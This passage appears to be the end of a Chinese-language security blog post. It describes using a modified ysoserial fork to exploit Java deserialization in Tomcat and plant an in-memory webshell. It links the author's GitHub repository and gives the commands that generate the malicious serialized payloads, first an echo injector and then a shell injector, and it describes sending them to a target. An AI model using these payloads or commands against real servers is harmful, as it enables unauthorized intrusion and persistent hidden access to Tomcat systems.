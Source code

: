 可以依次看到，两个步骤都返回500异常，相关信息证明已经执行反序列化成功了，接下来我们试试这个内存Webshell

![image](../img/5bf059bdd01a59517bfda5e980835e6f.png)

![image](../img/baa71dc01618ae6e2ea114477a5a6c07.png)

完美，具体ysoserial改造后的代码，我已经上传到github，有兴趣可以看看 [ianxtianxt/ysoserial](https://github.com/ianxtianxt/ysoserial)

### 使用方法

> Tomcat通杀回显-内存webshell
> 
> 例：
> 
> ```
> java -jar ysoserial-0.0.6-SNAPSHOT-all.jar
> CommonsCollections11ForTomcatEchoInject > echo.payload 
> ```
> 
> 然后使用上述得到的恶意序列化数据echo.payload攻击一遍，然后再继续下面的操作
> 
> ```
> java -jar ysoserial-0.0.6-SNAPSHOT-all.jar
> CommonsCollections11ForTomcatShellInject > shell.payload 
> ```